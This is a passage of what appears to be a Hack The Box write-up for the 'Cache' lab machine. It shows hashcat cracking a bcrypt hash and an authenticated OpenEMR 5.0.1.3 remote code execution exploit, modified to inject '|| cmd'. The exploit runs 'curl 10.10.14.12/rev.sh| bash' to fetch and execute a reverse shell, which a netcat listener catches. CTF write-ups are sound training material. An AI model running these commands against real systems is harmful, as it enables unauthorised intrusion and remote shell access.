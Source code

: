 Now its time to crack the hash.

```bash
┌──(kali㉿kali)-[~/machines/linux/cache]
└─$ hashcat -m 3200  hash /usr/share/wordlists/rockyou.txt
```

```bash
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Fri Nov  3 14:16:55 2023 (0 secs)
Time.Estimated...: Fri Nov  3 14:16:55 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2338 H/s (3.49ms) @ Accel:8 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 896/14344387 (0.01%)
Rejected.........: 0/896 (0.00%)
Restore.Point....: 832/14344387 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:24-32
Candidate.Engine.: Device Generator
Candidates.#1....: israel -> musica
Hardware.Mon.#1..: Util: 15%
```

The password `xxxxxx` is valid for the user `openemr_admin` . Now we can use the exploits to gain RCE that requiered authentication. We will be using the following script from **searchsploit**:

```bash
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                                                                                                                                                   | php/webapps/45161.py
```

I will modifiy the script since I have some problems to execute it. In line 136 I will modify how we send the command to execute.

```bash
_cmd = f"|| {args.cmd}"
```

And finally I will execute the command with the following options:

```bash
┌──(kali㉿kali)-[~/machines/linux/cache]
└─$ python 45161.py -u openemr_admin -p xxxxxx -c 'curl 10.10.14.12/rev.sh| bash' http://hms.htb
```

Setting a HTTP server and a listener we get out shell back.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.188] 53920
bash: cannot set terminal process group (1589): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
whoami
```

